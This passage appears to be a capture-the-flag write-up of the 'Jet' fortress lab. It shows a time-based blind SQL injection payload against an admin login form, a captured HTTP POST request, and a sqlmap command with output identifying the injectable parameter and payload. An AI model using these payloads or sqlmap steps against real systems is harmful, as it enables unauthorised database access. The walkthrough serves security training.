   

We have a `login`default credentials as `admin:admin`they will not work for us

[

![](https://xchg2pwn.github.io/fortresses/jet/8.png)





However, when passing `admin' and sleep(5)-- -`the website as a name, it takes `5`seconds to give us a response, which means that it is vulnerable to a`inyeccion sql`



![](https://xchg2pwn.github.io/fortresses/jet/10.png)





By intercepting the request with `burpsuite`we can see how the data is processed


![](https://xchg2pwn.github.io/fortresses/jet/9.png)





Let's go with the easy way, we start by saving the request in a file`request`

```
❯ cat request
POST /dirb_safe_dir_rf9EmcEIx/admin/dologin.php HTTP/1.1  
Host: www.securewebinc.jet
Content-Length: 47
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.securewebinc.jet
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9,en;q=0.8
Cookie: PHPSESSID=3aljq5nfoi1t34idu2dkm55nt2
Connection: close

username=admin&password=admin
```

  

We can use `sqlmap`passing it with `-r`the request file and with the parameter `-dbs`we list the databases, we can find the db`jetadmin`

```
❯ sqlmap -r request --batch -dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[12:11:01] [INFO] parsing HTTP request from 'request'
[12:11:03] [INFO] resuming back-end DBMS 'mysql' 
[12:11:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7805 FROM (SELECT(SLEEP(5)))BrBS)-- vOGO&password=admin  
---
```